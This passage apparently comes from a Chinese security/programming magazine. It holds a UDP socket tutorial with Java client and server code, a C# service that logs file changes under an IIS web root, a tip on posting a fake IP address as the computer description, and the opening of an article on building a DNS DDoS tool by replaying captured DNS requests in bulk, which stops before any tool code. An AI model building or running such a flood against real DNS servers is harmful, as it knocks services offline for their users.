

### BSD套接字接口

Socket 最早应用于伯克莱大学的 BSD UNIX 中，所以习惯上又称其为 BSD Socket（简称 BSD）。一个套接字描述一个通信连接的一端，在一个通信连接中的两端通信程序应各自有一个套接字来描述它们自己那一端，不同主机中的两个进程通过各自的套接字发送和接收消息，从而实现进程间跨网络的通信。

Linux 环境中的套接字支持多种网络协议，不同类型的网络协议具有不同的工作方式，所使用的地址格式也完全不同。对于各种网络协议而言，使用相同地址格式的几个协议称为一个协议地址族，表1列出了 BSD 套接字的常见地址族。

| 地址族类型 | 对应的通信协议 |
|---|---|
| AF_INET | TCP/IP协议 |
| AF_IPX | Novell IPX协议 |
| AF_UNIX | UNIX内部套接字 |
| AF_AX25 | AX.25协议套接字 |
| AF_APPLETALK | APPLETALK/DDP（Macintosh机器间） |

表1 BSD套接字地址族的主要类型

Linux 将套接字地址族抽象为统一的 BSD 套接字接口，该接口是应用程序的开发接口，由各地址专有的软件支持。Linux BSD Socket 支持以下常见套接字类型。

SOCK_STREAM（数据流套接口）：提供一个面向连接的双工顺序数据流传输和可靠的数据传输服务。这种套接字可以保证数据传输的可靠性，不会出现数据丢失、破损或重复出现等差错，而且通过流量控制避免发送的数据流超限。Internet 地址中的 TCP 协议支持流套接字。

SOCK_DGRAM（数据报套接口）：提供一个无连接和不可靠的双工数据传输服务。数据报以独立包形式被发送和接收，不对数据的传输提供无错保证，即数据可能被丢失、破坏，也可能被重复接收。Internet 地址中的 UDP 协议支持这种套接字。

SOCK_RAW（原始套接口）：这种类型的套接字允许对低层协议如 IP 或 ICMP 直接访问，可以直接填充 IP、TCP、UDP 或者 ICMP 包头，发送用户自己定义的 IP 包或者 ICMP 包。主要用于一些协议的开发，在网络安全的抓包中有重要的应用。

Internet 给分布式应用程序提供两类服务，一是面向连接的服务，二是无连接服务。面向连接的服务由 TCP 提供，客户和服务器在彼此间发送数据之前要先建立三次握手，以确保发送端的数据最终按顺序完整无误地传送给接收端。无连接服务则由 UDP 提供，发送端和接收端在传递数据之前不需要进行握手，因而不会带入任何延迟。

在无连接模式下，客户程序没有把套接字固定连接到一个指定的远程端点上，而是在每次发送数据报时指定远程目的地。UDP 通过套接字接入应用程序并附上源和目标端口号，再把数据段传送给网络层；网络层封装到 IP 数据包并交付接收端。若数据包到达，UDP 通过端口号和 IP 目标地址把内容正确递送给接收端套接字。UDP 不保持发送端和接收端间连接状态，不对接收/发送缓冲区、拥塞控制、到达顺序等参数跟踪，因此数据包可能出错甚至丢失，可靠性无法保障。

- 1) 相对于 TCP，面向无连接的数据传送不带时间延迟，速度自然更快。
- 2) UDP 不对发送端和接收端间的诸多参数进行跟踪，使其能支持更多处于活动状态的客户，灵活性强。
- 3) 在数据段结构对比中可以发现，UDP 的数据包头部开销比 TCP 小得多。
- 4) 由于没有拥塞控制机制，UDP 发送数据的速度仅受限于应用程序产生数据的速度、源端性能（CPU、时钟速度等）以及物理设备带宽。

##### Linux 平台下的 Socket 编程原理

在 Linux 中，Socket 属于文件系统的一部分，网络通信可以被看作是对文件的读取。这使得用户对网络的控制极为方便，Linux 的许多特性都非常有助于网络编程。

首先，Linux 拥有 POSIX 标准库函数，Socket()、Bind()、Sendto()、Recvfrom() 等库函数可方便实现客户/服务器模型中的数据传送与接收。其次，Linux 的进程管理策略也非常适合服务器工作环境，每个进程对应一个父进程并可创建多个子进程，发送端可由多个子进程分别将各自数据包发往接收端。

第二，Linux 传承了 UNIX 设备无关性这一优秀特性，通过文件描述符实现统一设备接口，磁盘、显示终端、音频设备、打印设备乃至网络通信都使用统一的 I/O 调用。这些特性大大方便并简化了 Linux 环境下的网络程序设计。

对于新手来说，必须知道以下几个函数的用法。

###### Socket 函数

Socket() 用来创建套接口描述符，其格式声明为 `int Socket(int domain,int type,int protocol);`。参数 domain 说明网络程序所在主机采用的通信协议，如 AF_INET（IPv4）、AF_INET6（IPv6）、AF_LOCAL（Unix 域）；参数 type 指定套接口类型（数据流、数据报、原始套接字），相当于指明通信协议是 TCP 还是 UDP；参数 protocol 由于 type 已指定，一般取 0 即可。

###### Bind 函数

Bind() 用来将套接口绑定到本地计算机的某一端口，其格式声明为 `int Bind(int Sockfd,Struct sockaddr *my_addr,int addrlen);`。Sockfd 为套接口描述字；my_addr 指向 sockaddr 结构，该结构包含远程服务程序的 IP 地址与端口号；addrlen 指明 sockaddr 结构长度。

###### Sendto 函数

Sendto() 用于将应用缓冲区中的数据发送到指定接收进程地址空间，格式声明为 `int Sendto(int sockfd,const void *msg,int len,unsigned int flags,const struct sockaddr *to,int tolen);`。sockfd 指定 UDP 套接字描述符；msg 为待发送数据缓冲区；to 指向包含目的 IP 地址和端口号的 sockaddr 结构；tolen 为地址长度。发送成功返回发送数据长度，否则返回 -1。

###### Recvfrom 函数

Recvfrom() 用于将套接字缓冲区中的数据接收并发给用户进程，格式声明为 `int Recvfrom(int sockfd,void *buf,int len,unsigned int flags,struct sockaddr *from,int *addrlen);`。sockfd 指明要读取的套接字；buf 为应用层接收缓冲区；len 表示缓冲区大小；from 和 addrlen 用于指定源地址和源端口号。

本文主要阐述的是无连接数据报通信的 Socket 编程过程。客户/服务器主要编写客户程序和服务器程序。以下是主要的编程框架，UDP 客户机/服务器程序的工作流程如图2所示。



图 2

UDP 通信的基本过程如下：在服务器端，先使用 AF_INET 协议族创建 UDP 数据报类型套接字，然后调用 Bind() 给此套接字绑定一个端口。由于并不需要建立连接，因此服务器端可以通过调用 Recvfrom() 在指定的端口等待客户端发送来的 UDP 数据报。而在客户端，先通过 Socket() 创建一个数据报套接字，然后由操作系统为该套接字分配端口号。此后客户端就可以使用 Sendto() 向一个指定的地址发送一个 UDP 套接字。在服务器端接收到套接字后，从 Recvfrom() 中返回，在对数据报进行处理后，再用 Sendto() 将处理的结果返回给客户端。使用 Recvfrom()、Sendto() 等函数实现通信时每次均需指定对端地址信息，也可以使用 Connect() 来填写两端套接字的有关信息，然后直接使用 Recv()、Send() 进行通信。这样做的好处是，在随后的通信程序中不必每次指定地址信息。套接口读写完毕后，通过 Close() 调用关闭连接的套接口文件描述符。

##### 用 Java 编写的客户/服务器应用程序示例

网络应用程序的核心由一对程序组成——一个客户程序和一个服务器程序。当这两个程序执行的时候，系统会创建一个客户端进程和一个服务器端进程，并且这两个进程通过对 Socket 的读写来互相通信。下面就客户/服务器模型来对 UDP 的 Socket 编程进行示范，程序功能如下：客户端从其键盘读入一行并将该行发送到服务器的套接字上。服务器从其套接字读入一行并将该行转换成大写。服务器将改写后的这一行输出到通往客户端的套接字上。客户端从它的套接字中读出修改后的行，并将该行在显示器上打印输出。应用程序的客户端代码如下：

```java
import java.io.*;
import java.net.*;
class UDPClient {
    public static void main(String args[]) throws Exception {
        ...
    }
}
```

```java
BufferedReader inFromUser = new BufferedReader(new InputStreamReader(System.in));
DatagramSocket clientSocket = new DatagramSocket();
InetAddress IPAddress = InetAddress.getByName("hostname");
byte[] sendData = new byte[1024];
byte[] receiveData = new byte[1024];
String sentence = inFromUser.readLine();
sendData = sentence.getBytes();
DatagramPacket sendPacket = new DatagramPacket(sendData, sendData.length, IPAddress, 1234);
clientSocket.send(sendPacket);
DatagramPacket receivePacket = new DatagramPacket(receiveData, receiveData.length);
clientSocket.receive(receivePacket);
String modifiedSentence = new String(receivePacket.getData());
System.out.println("Data From Server: " + modifiedSentence);
clientSocket.close();
```

Java.io 和 Java.net 是 Java 的包。Java.io 包含了输入和输出流的类，Java.net 包提供了网络支持类。该程序段构造了一个流 inFromUser 和一个 DatagramSocket 类型的套接字 clientSocket，inFromUser 是程序的输入流，它被加到键盘上。当用户在键盘上打入字符的时候，字符就会进入到流 inFromUser 中。应用程序的服务器端代码如下：

```java
import java.io.*;
import java.net.*;
class UDPServer {
    public static void main(String args[]) throws Exception {
        DatagramSocket serverSocket = new DatagramSocket(1234);
        ...
    }
}
```

```java
// 在端口1234上构造DatagramSocket类型的套接字serverSocket，
// 所有发送和接收的数据都将通过该套接字进行传送
byte[] receiveData = new byte[1024];
byte[] sendData = new byte[1024];
while(true) {
    DatagramPacket receivePacket = new DatagramPacket(receiveData, receiveData.length);
    serverSocket.receive(receivePacket);
    String sentence = new String(receivePacket.getData());
    InetAddress IPAddress = receivePacket.getAddress();
    int port = receivePacket.getPort();
    String newSentence = sentence.toUpperCase();
    sendData = newSentence.getBytes();
    DatagramPacket sendPacket = new DatagramPacket(sendData, sendData.length, IPAddress, port);
    serverSocket.send(sendPacket);
}
```

将以上两个程序在各自的主机上分别安装并编译，基于 UDP 的基本原理，执行客户端的时候，客户进程不会发起与服务器的连接，因而可以首先执行客户端，然后再执行服务器端。一旦执行了客户和服务器程序，客户端的用户可以使用该应用程序来向服务器发送一行，并接收该行转换成大写之后的字符串。

##### 结束语

Java 是与平台无关的，且编写的程序非常简洁，因而用 Java 进行客户/服务器编程越来越流行。以上介绍了 Socket 的编程机制及在 Linux 系统下的一个套接口程序，能够深入理解用 Socket 机制和 UDP 工作模式，但怎样改进 UDP 中数据传送的可靠性仍是众多研究人员关注的方向。

适合读者：C# 程序员，网络工程师  
前置知识：C# 基础

#### C# 版 IIS 守护者



文/图 华农 woof4652

最近养成每天在新版黑防网站上看黑客新闻的习惯，“国内数十站点被黑，Discuz! 开源惹的祸”，就是第一时间发布的安全新闻。现在脚本漏洞已经成为了网站安全的致命伤。对于管理员来说该怎么做呢？依靠 IIS 日志显然是不够的，我们要有我们自己的日志记录工具，这就是本文介绍的：用 C# 开发的自己的 IIS 监视软件。

连续监视的最好方法当然是使用 Windows 服务，所以我们需要编写一个服务程序，它能很好地记录下来发生的相关文件。

写服务程序与写一个 .NET 应用程序相似。在 VS.NET 中开始一个新的服务应用程序，将其命名为 woof4652。VS.NET 会自动创建 service1.cs 的类文件，该文件由 ServiceProcess.ServiceBase 派生而来，其中包括两个事件——OnStart 和 OnStop，我们首先要把 service1.cs 重命名为 IISGuard。因为当服务生成时会以类名字作为服务名。VS.NET 中生成服务非常简单，只需重载几个虚函数即可。其中两个以前黑防已经介绍过，还有两个为 OnPause 和 OnContinue，分别代表着服务的启动、停止、暂停与继续。

说完了 .NET 服务的生成，接下来是我们的主角——FileSystemWatcher 类。利用它可以监视不同类型的变化。

包括删除、对现有文件的修改、属性的修改、文件和目录的修改、文件日期的变更、文件大小的改变以及文件和文件夹的改变。FileSystemWatcher 非常灵活，表1和表2分别列出了它的主要属性和事件。

| 属性 | 说明 |
|---|---|
| EnableRaisingEvents | 获取或设置一个值，该值指示是否启用此组件。 |
| Filter | 获取或设置筛选字符串，用于确定在目录中监视哪些文件。 |
| IncludeSubdirectories | 获取或设置一个值，该值指示是否监视指定路径中的子目录。 |
| NotifyFilter | 获取或设置要监视的更改类型。 |
| Path | 获取或设置要监视的目录的路径。 |

表1 FileSystemWatcher 的属性

| 事件 | 说明 |
|---|---|
| Changed | 当更改指定 Path 中的文件或目录时发生。 |
| Deleted | 删除指定 Path 中的文件或目录时发生。 |
| Created | 当在指定 Path 中创建文件和目录时发生。 |
| Renamed | 重命名指定 Path 中的文件或目录时发生。 |

表2 FileSystemWatcher 的事件

首先我们先定义两个私有 String 类型，分别作为我们的 IIS 路径和我们要写入的日志路径。

```csharp
private string iisPath = @"D:\Inetpub\wwwroot";
private string logFile = @"C:\logFile.log";
```

然后我们要在构造函数中加入初始化的 FileSystemWatcher 代码。

```csharp
public IISGuard()
{
    InitializeComponent();
    this.fileSystemWatcher = new FileSystemWatcher();
    this.fileSystemWatcher.Path = iisPath;
    this.fileSystemWatcher.Filter = "*.*";
    this.fileSystemWatcher.IncludeSubdirectories = true;
    this.fileSystemWatcher.Changed += new FileSystemEventHandler(fileSystemWatcher_Changed);
    this.fileSystemWatcher.Created += new FileSystemEventHandler(fileSystemWatcher_Created);
    this.fileSystemWatcher.Deleted += new FileSystemEventHandler(fileSystemWatcher_Deleted);
    this.fileSystemWatcher.Renamed += new RenamedEventHandler(fileSystemWatcher_Renamed);
    this.fileSystemWatcher.NotifyFilter = System.IO.NotifyFilters.DirectoryName
        | System.IO.NotifyFilters.FileName
        | System.IO.NotifyFilters.LastWrite
        | System.IO.NotifyFilters.LastAccess
        | System.IO.NotifyFilters.CreationTime;
}
```

大家可以看到，我们用它来监视 iisPath 下面所有的文件和文件夹的更改。我们订阅的 Changed 事件会监视目录中文件或目录大小、系统属性、写入时间、访问时间或安全权限变更；Created 会在创建文件及文件夹时发生；Renamed 会在重命名时发生。

接下来是我们的 fileSystemWatcher_Changed 函数，它会在事件发生时写入日志文件。

```csharp
private void fileSystemWatcher_Changed(object sender, FileSystemEventArgs e)
{
    this.streamWriter = File.AppendText(logFile);
    this.streamWriter.WriteLine(e.ChangeType.ToString() + ":" + e.FullPath);
    this.streamWriter.Close();
}
```

后面的三个事件处理大致相同。我们还需要将 FileSystemWatcher 与 Service 结合起来。首先需要在 OnStart 中启动 FileSystemWatcher 实例。

```csharp
protected override void OnStart(string[] args)
{
    if (!File.Exists(logFile))
    {
        this.streamWriter = File.CreateText(logFile);
        this.streamWriter.Close();
    }
    this.streamWriter = File.AppendText(logFile);
    this.streamWriter.WriteLine("start at " + DateTime.Now.ToString());
    this.streamWriter.Close();
    this.fileSystemWatcher.EnableRaisingEvents = true;
}
```

我们首先检查日志文件是否存在，不存在就创建它。其余的 OnStop 大家可以看源代码。最后一点我要说的是服务的注册和运行。

- 1. 选择 IISGuard 类，转换到设计模式。
- 2. 在属性下面单击“添加安装程序”链接，会自动添加两个组件 ServiceProcessInstaller 和 ServiceInstaller，如图1所示。
- 3. 选择 serviceInstaller1 项，更改其属性 StartType 为 Automatic，即要其自启动。
- 4. 单击 serviceProcessInstaller1 组件，将 Account 改为 LocalHost，在本机上运行。
- 5. 编译便可生成 .exe 文件。
- 6. 用 InstallUtil.exe 工具来注册服务，如下：  
  `C:\Windows\Microsoft.NET\Framework\v1.0.3512\InstallUtil.exe C:\woof4652.exe`
- 7. 注册成功后，在服务里面将其开启就可以工作了，一张日志记录如图2所示。





好了，就到这里吧，有什么问题欢迎到黑防论坛提出来。

#### 局域网内拒绝网络攻击

现在许多局域网内的机器都设置了固定 IP 地址，这样很容易被内部或外部恶意者探知并发起攻击。因此需要在局域网里隐藏电脑 IP。可以把局域网内计算机名改成一个假的 IP 地址，以此迷惑初级黑客。方法如：在 Windows 2000/XP 下右键“我的电脑”→“属性”→“计算机名”，将“计算机描述”改为一个 IP 地址并应用。

适合读者：程序员，VB 爱好者  
前置知识：VB 基础

## 疯狂程序员
### 编写 DNS DDOS 工具

文/图 流火



想必大家对 DNS 已经熟得不能再熟了吧？不错，就是域名解析服务器！UDP 端口 53，是用来解析域名的！IE 把地址栏的域名发到 DNS 服务器，服务器把解析出来的结果返回给 IE，IE 根据这一组（有时不止一个）IP 中，选择一个连接！DNS 请求包和 DNS 应答包如图1、图2所示。





我们所要做的就是模拟 DNS 请求包，然后大量地发送，对 DNS 进行压力测试。

- 1. 根据格式自己生成数据包。  
- 2. 抓取嗅探器中的数据包，在程序中转换成数组。

我们采用后一种！因为用起来更方便！想了解更多可以访问中国协议网，网址 `http://www.cnpaf.net/`。程序界面如下！如图3所示。

